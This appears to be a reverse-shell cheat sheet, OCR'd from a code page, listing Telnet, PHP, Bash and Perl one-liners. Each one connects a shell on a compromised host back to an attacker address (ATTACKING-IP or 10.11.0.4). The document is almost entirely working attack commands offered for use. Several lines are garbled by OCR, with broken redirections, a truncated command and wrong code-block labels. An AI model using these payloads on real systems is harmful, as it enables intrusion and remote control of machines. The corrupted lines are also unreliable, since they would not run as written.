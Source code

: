 	
## **Telnet Reverse Shell**

```sql
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```sql
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```


## **PHP**
-   (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
	```sql
	php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
	```


## **Bash**

```sql
exec /bin/bash 0&0 2>&0
```

```sql
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```sql
exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
```

```sql
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&
```

```sql
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```


## **Perl**

```perl
    exec "/bin/sh";
```

```sql
perl —e 'exec "/bin/sh";'
```

```sql
    perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Windows
	```sql
	perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	```
